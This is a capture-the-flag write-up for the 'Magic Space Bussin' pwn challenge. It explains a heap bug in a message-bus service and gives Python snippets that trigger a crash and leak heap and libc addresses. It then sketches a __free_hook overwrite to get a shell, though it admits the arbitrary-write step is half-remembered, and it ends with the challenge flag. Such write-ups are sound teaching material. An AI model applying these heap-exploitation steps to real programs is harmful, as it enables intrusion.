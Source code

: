 # Magic Space Bussin

## Task

* Category: Pure Pwnage
* Points: 183
* Solves: 16

Description:

> I hate embedded SWEs. Always talking about how you should preallocate all the memory you need in the data section if you're using a bus. This isn't the 90s anymore. The heap is bussin fr fr.
>
> Don't trust me? Fine. You're more than welcome to test my spacebus implementation.

Attachements:

* `magic_public.tar.gz`

## Solution

The challenge implements a message bus with two clients, startracker 1 and 2. We can post a message on the bus, or let the startracker handle their messages. The protocol is fairly simple, the first byte of a message is the `msg_id` the second byte is the `pipe_id`, the third byte`hex` tells whether the payload is in hexadecimal or not and the rest is just the payload.

`msg_id` just tells the client which message type the payload has.
There are:
```
    TEST_MSG=100,
    GET_STARS=101,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    NUM_STARS=102,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    BRIGHTEST_STARS=103,        // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    RESET=104,                  // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    CALIBRATE=105,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    QUATERNION=106              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
```
(from `startracker.h`)
But only `TEST_MSG` is implemented, which echoes the payload as a hex sequence.
`pipe_id` allows us to specify the target, `0x00` for startracker 1,
`0x01` for startracker 2 and `0xFF` to send to all clients.

From looking at the source code and some experimentation we noticed some bugs quite fast, but they weren't that useful, for example if you send 11 valid messages with the `pipe_id` set to `0xFF` on the bus, you get
```
free(): double free detected in tcache 2
```
Therefore, we just fuzzed it until we had a crash that looks interesting.
After a few crashes, a
```
free(): invalid pointer
```
caught our attention, at this time we already had a python script to  interact with the bus and were able to reproduce the crash using this code
```python
for i in range(2):
    post_message(TEST_MSG, 0xFF, False, b"N"*0xf11)

for _ in range(2):
    handle_startracker_1_messages()

post_message(TEST_MSG, 0xFF, True, b"P"*(0x61))

handle_startracker_1_messages()

for i in range(3,10):
    print(i)
    post_message(0x34, 0x34, True, b"1"*(0x10*i+1))

post_message(0x34, 0x34, True, b"0"*(0x61))
```
The next thing we needed was a heap leak, this was possible by sending a `TEST_MSG` with the `hex` flag set, but sending `2n+1` characters. This allows us to override the terminating null byte and thus leak the content after the payload on the heap.
Therefore, it's quite easy to get a heap address leak like so:
```python
post_message(TEST_MSG, 0x0, True, b"P" * (0x61))

handle_startracker_1_messages()
p.recvuntil(b"StarTracker: Testing Message")
p.recvline()
data = p.recvline()
leak = b"".join([p8(int(x, 16)) for x in data.split(b" ")[:-1]])
heap_leak = u64(leak[80:][:8])

print(hex(heap_leak))
```
For a libc leak we just have to send and then free a large chunk and use the same bug to get a pointer into the main arena.

```python
# create and free large chunk
post_message(TEST_MSG, 0x0, False, b"P" * (0x400))
handle_startracker_1_messages()

# oob leak libc_main arena
post_message(TEST_MSG, 0xFF, True, b"P" * (0xc1))
handle_startracker_1_messages()

p.recvuntil(b"StarTracker: Testing Message")
p.recvline()
data = p.recvline()
leak = b"".join([p8(int(x, 16)) for x in data.split(b" ")[:-1]])
heap_leak = u64(leak[120:][:8])
print(hex(heap_leak))
```
We figured out the required lengths by trial and error.

The rough idea for the rest of the exploit was:
 - leak heap address
 - leak libc address
 - get arbitrary write
 - overwrite `__free_hook`
 - get shell

So we just had to get an arbitrary write, but how?
Actually I don’t know anymore, all I can remember was that I sat there for another 9 hours until 10 AM and then had an arbitrary write, the rest was straight forward.
I think the solution was to overwrite the prev_size of a chunk, mark it as !prev_inuse backwards consolidate with a fake chunk, somehow making the allocator think that the tcache is now freed, allocate inside tcache and make it do an allocation at an arbitrary address.
Maybe you can explain my exploit to me and tell me which house this is. :upside_down:

Flag: `flag{golf225358juliet4:GJLArHWczQc6Ly-Z6DiwwEK3xG3gPGkx3ozaRzSKVseTHk3Vhxl6mm_5XoS0bj4s1dAdX2TdhI9CGwz0Kuckf_0}`
